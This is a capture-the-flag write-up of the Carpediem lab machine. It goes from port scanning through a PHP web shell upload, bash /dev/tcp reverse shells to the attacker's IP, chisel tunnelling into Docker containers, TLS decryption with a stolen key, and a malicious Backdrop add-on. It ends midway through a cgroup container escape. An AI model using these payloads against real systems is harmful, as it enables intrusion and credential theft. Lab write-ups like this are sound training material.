



16 minutes
Carpediem Write-Up

Ininitial Recon
Nmap
Starting with a full tcp port scan, I got the following results:
$ nmap -p- -A 10.10.11.167
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-02 07:41 EET
Nmap scan report for 10.10.11.167
Host is up (0.12s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 962176f72dc5f04ee0a8dfb4d95e4526 (RSA)
| 256 b16de3fada10b97b9e57535c5bb76006 (ECDSA)
|_ 256 6a1696d80529d590bf6b2a0932dc364f (ED25519)
80/tcp open http nginx 1.18.0 (Ubuntu)
|_http-title: Comming Soon
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 427.09 seconds
It looks like only ports 22 running ssh and 80 running a webserver are open.
Surfin The Webpage
The page on port 80 appears to be a static webpage that discloses the domain of carpediem.htb.
So, I’ll add it to my /etc/hosts:
echo -e '10.10.11.167\tcarpediem.htb' | sudo tee -a /etc/hosts
Sub-Domain Enumeration
Since I have the main domain of the web server, I’ll try to look for any hidden subdomains using gobuster:
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://carpediem.htb --append-domain
portal.carpediem.htb has been found, so I’ll also add it to my /etc/hosts.
echo -e '10.10.11.167\tportal.carpediem.htb' | sudo tee -a /etc/hosts
Webserver Enumeration
The website on this new subdomain, appears to be a Motorcycle Store, having a Login and Book this Bike functionalities, however I need to be logged in order to book a bike.

I tried to bruteforce directories using gobuster, and this what I found:
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://portal.carpediem.htb0
If I surf to the admin directory from firefox, I get redireted to the login page:
Bypassing Login
But if I use curl with -v option to see the headers, I can see that the response is 200 ok, and the presence of a javascript tag that displays the login page to me, and looks like the content of the admin page are being sent but aren’t displayed because of these tags:
curl http://portal.carpediem.htb/admin/ -v
This means that if I remove these tags from the server’s response, I can bypass this login mechanism and get to the admin page. So what I’ll do is to intercept the response comming from the server using Burp Suite and make a rule to remove the tags before forwarding the response back to my firefox.
Getting RCE
Finding Upload Functionality
Cycling through the pages, I noticed that there is an upload report functionality, however it is in development:
But clicking on add then continue gives an error:
After inspecting the source code with [CTRL + u], I saw a javascript upload function that appears to be uploading a file to classes/Users.php?f=upload:
If I try to access the url, an error like this will occur:
If I try to upload a file using curl, I will get an error about missing file_upload parameter, so after changing the parameter I can upload a php shell and get command execution:
Uploading PHP File And Getting RCE
Now, I can try to get a reverse shell back to my kali:
$ echo '<?php system($_GET["cmd"]);?>' > shell.php
$ curl -XPOST http://portal.carpediem.htb/classes/Users.php?f=upload -F "file_upload=@shell.php"
$ curl http://portal.carpediem.htb/uploads/1670042280_shell.php?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/10.10.16.23/1234%200%3E%261%27
Enumerating In Docker
Scanning Other Hosts Using Static Nmap
But it looks like I am in a docker container now, and it appears from reading the /etc/hosts file that there are more than one container.
So I’ll upload a static nmap binary, and try to scan a range of ip addresses to see who is up and what services are running on each container:
- You can either compile your version of nmap or try to find it online. I found one in this repo: https://github.com/ernw/static-toolbox/releases/download/nmap-v7.91SVN/nmap-7.91SVN-x86_64-portable.zip.
- First I’ll get a fully interactive shell using
$ python3 -c 'import pty;pty.spawn("/bin/bash")' $ [CTRL + z] $ stty raw -echo fg $ [Enter]
In order for nmap to work properly with all the scripts and everything, I need to also upload the directory containing nmap scripts:
Now when I need to run nmap, I need to specify the data diretory where the scripts are located. Here I’ll scan the subnet 172.17.0.0/28 which ranges from 172.17.0.1 to 172.17.0.16 since my guest is that there is no more than 16 docker container on such a box:
www-data@3c371615b7aa:/tmp$ chmod +x nmap
www-data@3c371615b7aa:/tmp$ ./nmap -A -p- --datadir data 172.17.0.0/28
Starting Nmap 7.91SVN ( https://nmap.org ) at 2022-12-03 10:54 UTC
Nmap scan report for 172.17.0.1
Host is up (0.000097s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 96:21:76:f7:2d:c5:f0:4e:e0:a8:df:b4:d9:5e:45:26 (RSA)
| 256 b1:6d:e3:fa:da:10:b9:7b:9e:57:53:5c:5b:b7:60:06 (ECDSA)
|_ 256 6a:16:96:d8:05:29:d5:90:bf:6b:2a:09:32:dc:36:4f (ED25519)
80/tcp open http nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Comming Soon
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Nmap scan report for 172.17.0.2
Host is up (0.00041s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
| STAT:
| FTP server status:
| Connected to 172.17.0.6
| Logged in as ftp
| TYPE: ASCII
| No session bandwidth limit
| Session timeout in seconds is 300
| Control connection is plain text
| Data connections will be plain text
| At session startup, client count was 2
| vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp open http Apache httpd 2.4.48 ((Ubuntu))
|_http-server-header: Apache/2.4.48 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
443/tcp open ssl/http Apache httpd 2.4.48 ((Ubuntu))
|_http-generator: Backdrop CMS 1 (https://backdropcms.org)
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.md /web.config /admin
| /comment/reply /filter/tips /node/add /search /user/register
|_/user/password /user/login /user/logout /?q=admin /?q=comment/reply
|_http-server-header: Apache/2.4.48 (Ubuntu)
|_http-title: Home | backdrop.carpediem.htb
| ssl-cert: Subject: commonName=backdrop.carpediem.htb/organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=US
| Not valid before: 2022-04-07T17:12:51
|_Not valid after: 2025-01-02T17:12:51
| tls-alpn:
|_ http/1.1
Service Info: OS: Unix
Nmap scan report for 172.17.0.3
Host is up (0.00039s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT STATE SERVICE VERSION
27017/tcp open mongodb MongoDB 5.0.6
| mongodb-databases:
| ok = 1.0
| totalSizeMb = 1
| databases
| 0
| name = admin
| empty = false
| sizeOnDisk = 135168
| 3
| name = trudesk
| empty = false
| sizeOnDisk = 1118208
| 2
| name = local
| empty = false
| sizeOnDisk = 90112
| 1
| name = config
| empty = false
| sizeOnDisk = 36864
|_ totalSize = 1380352
|_mongodb-info: ERROR: Script execution failed (use -d to debug)
Nmap scan report for mysql (172.17.0.4)
Host is up (0.000088s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT STATE SERVICE VERSION
3306/tcp open mysql MySQL 8.0.27
| mysql-info:
| Protocol: 10
| Version: 8.0.27
| Thread ID: 874
| Capabilities flags: 65535
| Some Capabilities: Speaks41ProtocolOld, Support41Auth, IgnoreSpaceBeforeParenthesis, SupportsTransactions, SupportsCompression, ODBCClient, IgnoreSigpipes, ConnectWithDatabase, SwitchToSSLAfterHandshake, FoundRows, InteractiveClient, SupportsLoadDataLocal, Speaks41ProtocolNew, LongColumnFlag, DontAllowDatabaseTableColumn, LongPassword, SupportsAuthPlugins, SupportsMultipleResults, SupportsMultipleStatments
| Status: Autocommit
| Salt: 4|OQ1( :]dgo1COl\x1E~\x16N
|_ Auth Plugin Name: caching_sha2_password
| ssl-cert: Subject: commonName=MySQL_Server_8.0.27_Auto_Generated_Server_Certificate
| Not valid before: 2021-10-27T03:20:43
|_Not valid after: 2031-10-25T03:20:43
|_ssl-date: TLS randomness does not represent time
33060/tcp open mysqlx?
| fingerprint-strings:
| DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp:
| Invalid message"
| HY000
| LDAPBindReq:
| *Parse error unserializing protobuf message"
| HY000
| oracle-tns:
| Invalid message-frame."
|_ HY000
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port33060-TCP:V=7.91SVN%I=7%D=12/3%Time=638B2B0C%P=x86_64-pc-linux-musl
SF:%r(NULL,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(GenericLines,9,"\x05\0\0\0\
SF:x0b\x08\x05\x1a\0")%r(GetRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(HT
SF:TPOptions,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(RTSPRequest,9,"\x05\0\0\0
SF:\x0b\x08\x05\x1a\0")%r(RPCCheck,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(DNS
SF:VersionBindReqTCP,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(DNSStatusRequestT
SF:CP,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\
SF:x0fInvalid\x20message\"\x05HY000")%r(Help,9,"\x05\0\0\0\x0b\x08\x05\x1a
SF:\0")%r(SSLSessionReq,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08
SF:\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000")%r(TerminalServerCo
SF:okie,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(TLSSessionReq,2B,"\x05\0\0\0\x
SF:0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20messa
SF:ge\"\x05HY000")%r(Kerberos,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(SMBProgN
SF:eg,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(X11Probe,2B,"\x05\0\0\0\x0b\x08\
SF:x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x0
SF:5HY000")%r(FourOhFourRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LPDStr
SF:ing,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LDAPSearchReq,2B,"\x05\0\0\0\x0
SF:b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20messag
SF:e\"\x05HY000")%r(LDAPBindReq,46,"\x05\0\0\0\x0b\x08\x05\x1a\x009\0\0\0\
SF:x01\x08\x01\x10\x88'\x1a\*Parse\x20error\x20unserializing\x20protobuf\x
SF:20message\"\x05HY000")%r(SIPOptions,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r
SF:(LANDesk-RC,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(TerminalServer,9,"\x05\
SF:0\0\0\x0b\x08\x05\x1a\0")%r(NCP,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(Not
SF:esRPC,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x
SF:1a\x0fInvalid\x20message\"\x05HY000")%r(JavaRMI,9,"\x05\0\0\0\x0b\x08\x
SF:05\x1a\0")%r(WMSRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(oracle-tns,
SF:32,"\x05\0\0\0\x0b\x08\x05\x1a\0%\0\0\0\x01\x08\x01\x10\x88'\x1a\x16Inv
SF:alid\x20message-frame\.\"\x05HY000")%r(ms-sql-s,9,"\x05\0\0\0\x0b\x08\x
SF:05\x1a\0")%r(afp,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01
SF:\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000");
Nmap scan report for 172.17.0.5
Host is up (0.00015s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT STATE SERVICE VERSION
8118/tcp open privoxy?
| fingerprint-strings:
| DNSVersionBindReqTCP, RPCCheck, RTSPRequest:
| HTTP/1.1 400 Bad Request
| Connection: close
| GetRequest:
| HTTP/1.1 200 OK
| Access-Control-Allow-Origin: *
| Access-Control-Allow-Methods: GET, POST, PUT, DELETE, PATCH, OPTIONS
| Access-Control-Allow-Headers: DNT,X-Mx-ReqToken,Keep-Alive,User-Agent,X-Requested-With,If-Modified-Since,Cache-Control,Content-Type,accesstoken,X-RToken,X-Token
| Content-Type: text/html; charset=utf-8
| Content-Length: 7285
| ETag: W/"1c75-WUVJYgy+76qLc2hldkHzGR7+Uxg"
| set-cookie: connect.sid=s%3AO5e1S-uwVRl259ATIP02HJYZhPgPiVIH.o2MGZWzTfKSYRWeP0MydfcXvWha3aN%2Bx%2BiPyTdTBt1s; Path=/; Expires=Sun, 03 Dec 2023 10:55:28 GMT; HttpOnly
| Date: Sat, 03 Dec 2022 10:55:28 GMT
| Connection: close
| <!DOCTYPE html>
| <html>
| <head>
| <title>Trudesk · Login</title>
| <link rel="stylesheet" href="/css/plugins.min.css">
| <link rel="stylesheet" href="/css/app.min.css">
| <style type="text/css">
| html {
| overflow-x: hidden;
| body {
| HTTPOptions:
| HTTP/1.1 200 OK
| Access-Control-Allow-Origin: *
| Access-Control-Allow-Methods: GET, POST, PUT, DELETE, PATCH, OPTIONS
| Access-Control-Allow-Headers: DNT,X-Mx-ReqToken,Keep-Alive,User-Agent,X-Requested-With,If-Modified-Since,Cache-Control,Content-Type,accesstoken,X-RToken,X-Token
| Content-Type: text/plain; charset=utf-8
| Content-Length: 2
| ETag: W/"2-nOO9QiTIwXgNtWtBJezz8kv3SLc"
| Date: Sat, 03 Dec 2022 10:55:33 GMT
|_ Connection: close
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8118-TCP:V=7.91SVN%I=7%D=12/3%Time=638B2B20%P=x86_64-pc-linux-musl%
SF:r(GetRequest,1ED8,"HTTP/1\.1\x20200\x20OK\r\nAccess-Control-Allow-Origi
SF:n:\x20\*\r\nAccess-Control-Allow-Methods:\x20GET,\x20POST,\x20PUT,\x20D
SF:ELETE,\x20PATCH,\x20OPTIONS\r\nAccess-Control-Allow-Headers:\x20DNT,X-M
SF:x-ReqToken,Keep-Alive,User-Agent,X-Requested-With,If-Modified-Since,Cac
SF:he-Control,Content-Type,accesstoken,X-RToken,X-Token\r\nContent-Type:\x
SF:20text/html;\x20charset=utf-8\r\nContent-Length:\x207285\r\nETag:\x20W/
SF:\"1c75-WUVJYgy\+76qLc2hldkHzGR7\+Uxg\"\r\nset-cookie:\x20connect\.sid=s
SF:%3AO5e1S-uwVRl259ATIP02HJYZhPgPiVIH\.o2MGZWzTfKSYRWeP0MydfcXvWha3aN%2Bx
SF:%2BiPyTdTBt1s;\x20Path=/;\x20Expires=Sun,\x2003\x20Dec\x202023\x2010:55
SF::28\x20GMT;\x20HttpOnly\r\nDate:\x20Sat,\x2003\x20Dec\x202022\x2010:55:
SF:28\x20GMT\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html>\n<h
SF:ead>\n\x20\x20\x20\x20<title>Trudesk\x20·\x20Login</title>\n\x20
SF:\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/css/plugins\.min\.cs
SF:s\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/css/app\.m
SF:in\.css\">\n\x20\x20\x20\x20<style\x20type=\"text/css\">\n\x20\x20\x20\
SF:x20\x20\x20\x20\x20html\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20overflow-x:\x20hidden;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\x20\
SF:x20\x20\x20\x20\x20\x20\x20body\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20"
SF:)%r(HTTPOptions,1BA,"HTTP/1\.1\x20200\x20OK\r\nAccess-Control-Allow-Ori
SF:gin:\x20\*\r\nAccess-Control-Allow-Methods:\x20GET,\x20POST,\x20PUT,\x2
SF:0DELETE,\x20PATCH,\x20OPTIONS\r\nAccess-Control-Allow-Headers:\x20DNT,X
SF:-Mx-ReqToken,Keep-Alive,User-Agent,X-Requested-With,If-Modified-Since,C
SF:ache-Control,Content-Type,accesstoken,X-RToken,X-Token\r\nContent-Type:
SF:\x20text/plain;\x20charset=utf-8\r\nContent-Length:\x202\r\nETag:\x20W/
SF:\"2-nOO9QiTIwXgNtWtBJezz8kv3SLc\"\r\nDate:\x20Sat,\x2003\x20Dec\x202022
SF:\x2010:55:33\x20GMT\r\nConnection:\x20close\r\n\r\nOK")%r(RTSPRequest,2
SF:F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")
SF:%r(RPCCheck,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20cl
SF:ose\r\n\r\n")%r(DNSVersionBindReqTCP,2F,"HTTP/1\.1\x20400\x20Bad\x20Req
SF:uest\r\nConnection:\x20close\r\n\r\n");
Nmap scan report for 3c371615b7aa (172.17.0.6)
Host is up (0.00013s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.51
|_http-server-header: Apache/2.4.51 (Debian)
|_http-title: 403 Forbidden
Service Info: Host: 172.17.0.6
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 16 IP addresses (6 hosts up) scanned in 51.74 seconds
Finding An Open Mongodb Instance
From the scan above, I can see that mongodb is open on 172.17.0.3 and that it doesn’t require any password to log in, since nmap was able to list the databases.
So, now I’ll use chisel to port forward the port back to my machine so that I can access it using mongosh.
- If you don’t have it you can follow the installation instructions from here: https://www.mongodb.com/docs/mongodb-shell/install/
- Uploading Chisel:

On my kali machine:
./chisel_1.7.7_linux_amd64 server -p 9001 --reverse
On the target machine:
./chisel_1.7.7_linux_amd64 client 10.10.16.23:9001 R:127.0.0.1:8080:172.17.0.3:27017 &
Now, port 27017 open on the host 172.17.0.3, which was accessible only internally, is now forwarded through Chisel listening on my machine port 9001 and will be accessible for me on port 8080.
Reading Important Information From Mongodb
I can then use mongosh --port 8080 to access the database from my machine:
By listing the databases using show databases, I can see that there is one called trudesk, so after searching a little bit I found some interesting stuff:
use trudesk // Switch database to trudesk
show tables // Show available tables
db.accounts.find() // To list all account's information
db.notifications.find() // To list all the notifications
Getting User On Carpediem
Using Zoiper To Get Credentials
After reading the notifications sent between staff members, it appears that a new employee was hired and one the old staff left him a voice mail about his new credentials. They also recommended using Zoiper as desktop soft phone for him to access his voice mails, so this is what I’ll use.
- You can download Zoiper debian package from
zoiper’s website and run the following command in order to install it
sudo dpkg -i Zoiper5_5.5.14_x86_64.deb
Usually Zoiper runs on UDP port 5060, and I knew that using google, or from the login prompt of the application after installing it.
Checking For Open UDP Port 5060 That Zoiper Uses
So if I check that using nmap, I can confirm that the port is indeed open: sudo nmap -p 5060 -sU carpediem.htb
Hearing The Message And Getting User
From the messages, I saw that in order to login to the domain using zoiper as the new employee, I can use the last 4 digits of his employee ID 9650 as the username and 2022 as his password. Then to hear the voice mail and get his credentials, I need to dial *62 and put the pin code which is 2022 and then press 1 to hear it.
So the password for the new employee is AuRj4pxq9qPk. His name, from the previous notifications, appears to be Horace Flaccus, and previously I saw the emails (when reading account information from mongodb) in the form of [First Initial][Last name], so my guess is that the new username will be hflaccus, and this what I’ll try to provide to see if I can login using SSH.
And it worked:
Discovering Backdrop Instance
Going back to nmap scan for the ip 172.17.0.2 (done previously), I can see that it is running a webserver on port 443 disclosing a new subdomain backdrop.carpediem.htb.
And aslo from the notifications in mongodb, I noticed some messages related to this webserver running SSL (port 443).
Sniffing Traffic Going To Backdrop
In addition, if I run timeout 1 tcpdump I can see that I am able to run tcpdump command which means that I might be able to sniff some traffic and grab credentials.
Moreover, if I check /etc/ssl/certs/ I can see that the certificate and its private key for backdrop cms are present in there:
hflaccus@carpediem:/tmp$ ls -la /etc/ssl/certs/backdrop.carpediem.htb.*
-rw-r--r-- 1 root root 1269 Apr 7 2022 /etc/ssl/certs/backdrop.carpediem.htb.crt
-rw-r--r-- 1 root root 1679 Apr 7 2022 /etc/ssl/certs/backdrop.carpediem.htb.key
So what I’ll do is to sniff ssl traffic goind to backdrop, decrypt it, and see if I can get some credentials:
hflaccus@carpediem:/tmp$ tcpdump -i docker0 -c 50 -nn -A -w 443.pcap port 443
tcpdump: listening on docker0, link-type EN10MB (Ethernet), capture size 262144 bytes
50 packets captured
57 packets received by filter
0 packets dropped by kernel
- 50 packets should be enough to get credentials.
Decrypting SSL Traffic
Now, I’ll copy the new pcap file and the certificate’s private key to my machine and decrypt the traffic to what’s happening:
scp hflaccus@carpediem.htb:/tmp/443.pcap .
scp hflaccus@carpediem.htb:/etc/ssl/certs/backdrop.carpediem.htb.key .
To add the private key, I need to head to edit => prefrecences => tls => pre-master key or edit => prefrecences => RSA Keys, depending on the wireshark version used, and then add it:
Then, I can open the pcap file and see the decrypted data:

Right away, I can spot a POST request for login page, and if I inspect it, I can see the credentials jpardella:tGPN6AmJDZwYWdhY.
Accessing Backdrop From Kali
Again, using Chisel, I’ll forward the port to my machine:
- On kali:
./chisel_1.7.7_linux_amd64 server -p 9001 --reverse - On the target:
./chisel_1.7.7_linux_amd64 client 10.10.16.23:9001 R:127.0.0.1:8080:172.17.0.2:443 &
Now, I am able to access backdrop from kali on https://localhost:8080/:
Since, I have credentials for this site, I can try to login and upload a malicious php file to get RCE on the container:

Getting RCE On Backdrop Container
The way to upload a malicious php file is by uploading a malicious add-on with crafted php file, as described here: https://www.exploit-db.com/exploits/50323. Although Cross Site Request Forgery isn’t needed here because I am already logged in, but I can use the step to upload a malicious .tar file containing my php code as add-on, and gain RCE that way.
Link to the malicious tar file is https://github.com/V1n1v131r4/CSRF-to-RCE-on-Backdrop-CMS/releases/download/backdrop/reference.tar.
So, after downloading the file to my machine, I can list its contents to make sure everything is correct using tar -tf references.tar:
And now I can upload it to backdrop as add-on:
After that, I can access the shell and run my malicious commands from here: https://localhost:8080/modules/reference/shell.php?cmd=id
In order to get a reverse shell, I need to know the ip address of docker interface since there is no route to my machine from docker, so I’ll catch a shell from hflaccus user:
Using curl and a payload like this, I can trigger the reverse shell:
curl -k -s https://localhost:8080/modules/reference/shell.php?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/172.17.0.1/1234%200%3E%261%27
# url encoded payload: bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/172.17.0.1/1234%200%3E%261%27
# url decoded payload: bash -c 'bash -i >& /dev/tcp/172.17.0.1/1234 0>&1'

Escalating To Root
Finding Cronjobs Executed By Root
If run the command ps aux, I can see that root user is executing some scripts:
This script is checking the integrity of /var/www/html/backdrop/core/scripts/backdrop.sh and executes it by providing some parameters.
Reading the file to see what it does, reveals that the script takes a URI parameter and requests index.php from that URI and then executes it, which means that since root user is providing https://localhost uri where I have write permission to its files, I can override index.php and add my malicious script to escalate to root.
$ cat /var/www/html/backdrop/core/scripts/backdrop.sh
#!/usr/bin/env php
<?php
/**
* Backdrop shell execution script
*
* Check for your PHP interpreter - on Windows you'll probably have to
* replace line 1 with
* #!c:/program files/php/php.exe
*
* @param path Backdrop's absolute root directory in local file system (optional).
* @param URI A URI to execute, including HTTP protocol prefix.
*/
$script = basename(array_shift($_SERVER['argv']));
if (in_array('--help', $_SERVER['argv']) || empty($_SERVER['argv'])) {
echo <<<EOF
Execute a Backdrop page from the shell.
Usage: {$script} [OPTIONS] "<URI>"
Example: {$script} "http://mysite.org/node"
All arguments are long options.
--help This page.
--root Set the working directory for the script to the specified path.
To execute Backdrop this has to be the root directory of your
Backdrop installation, f.e. /home/www/foo/backdrop (assuming
Backdrop is running on Unix). Current directory is not required.
Use surrounding quotation marks on Windows.
--verbose This option displays the options as they are set, but will
produce errors from setting the session.
URI The URI to execute, i.e. http://default/foo/bar for executing
the path '/foo/bar' in your site 'default'. URI has to be
enclosed by quotation marks if there are ampersands in it
(f.e. index.php?q=node&foo=bar). Prefix 'http://' is required,
and the domain must exist in Backdrop's sites-directory.
If the given path and file exists it will be executed directly,
i.e. if URI is set to http://default/bar/foo.php
and bar/foo.php exists, this script will be executed without
bootstrapping Backdrop. To execute Backdrop's cron.php, specify
http://default/core/cron.php as the URI.
To run this script without --root argument invoke it from the root directory
of your Backdrop installation with
./scripts/{$script}
\n
EOF;
exit;
}
// define default settings
$cmd = 'index.php';
$_SERVER['HTTP_HOST'] = 'default';
$_SERVER['PHP_SELF'] = '/index.php';
$_SERVER['REMOTE_ADDR'] = '127.0.0.1';
$_SERVER['SERVER_SOFTWARE'] = NULL;
$_SERVER['REQUEST_METHOD'] = 'GET';
$_SERVER['QUERY_STRING'] = '';
$_SERVER['PHP_SELF'] = $_SERVER['REQUEST_URI'] = '/';
$_SERVER['HTTP_USER_AGENT'] = 'console';
// toggle verbose mode
if (in_array('--verbose', $_SERVER['argv'])) {
$_verbose_mode = true;
}
else {
$_verbose_mode = false;
}
// parse invocation arguments
while ($param = array_shift($_SERVER['argv'])) {
switch ($param) {
case '--root':
// change working directory
$path = array_shift($_SERVER['argv']);
if (is_dir($path)) {
chdir($path);
if ($_verbose_mode) {
echo "cwd changed to: {$path}\n";
}
}
else {
echo "\nERROR: {$path} not found.\n\n";
}
break;
default:
if (substr($param, 0, 2) == '--') {
// ignore unknown options
break;
}
else {
// parse the URI
$path = parse_url($param);
// set site name
if (isset($path['host'])) {
$_SERVER['HTTP_HOST'] = $path['host'];
}
// set query string
if (isset($path['query'])) {
$_SERVER['QUERY_STRING'] = $path['query'];
parse_str($path['query'], $_GET);
$_REQUEST = $_GET;
}
// set file to execute or Backdrop path (clean URLs enabled)
if (isset($path['path']) && file_exists(substr($path['path'], 1))) {
$_SERVER['PHP_SELF'] = $_SERVER['REQUEST_URI'] = $path['path'];
$cmd = substr($path['path'], 1);
}
elseif (isset($path['path'])) {
if (!isset($_GET['q'])) {
$_REQUEST['q'] = $_GET['q'] = $path['path'];
}
}
// display setup in verbose mode
if ($_verbose_mode) {
echo "Hostname set to: {$_SERVER['HTTP_HOST']}\n";
echo "Script name set to: {$cmd}\n";
echo "Path set to: {$_GET['q']}\n";
}
}
break;
}
}
if (file_exists($cmd)) {
include $cmd;
}
else {
echo "\nERROR: {$cmd} not found.\n\n";
}
exit();
Getting Root Inside Container
First, I’ll get a full TTY shell (fully interactive shell) using script command since python3 isn’t installed in the container:
script -qc /bin/bash /dev/null
[CTRL + z]
stty raw -echo ; fg
[Enter]

Then, I’ll override index.php inside backdrop directory with a php reverse shell back to hflaccus on the host target which is listening on port 6666:
echo '<?php system("/bin/bash -c \"bash -i >& /dev/tcp/172.17.0.1/6666 0>&1\"") ?>' > backdrop/index.php
Again, I’ll get a full TTY shell:
Listing Docker Capabilities
Now, if I try to list the capabilities for this container:
cat /proc/$$/status | grep CapEff
capsh --decode=00000000a00425fb

Finding CVE-2022-0492 To Escape Docker
I can’t see something that can be abused here, however, a recent vulnerability CVE-2022-0492 has been discovered that allows us to get all the capabilities back and then abuse cgroups to escape from the container and get root on the host:
unshare -UrmC bash
mount -t cgroup -o rdma cgroup /mnt
Getting Root On Carpediem
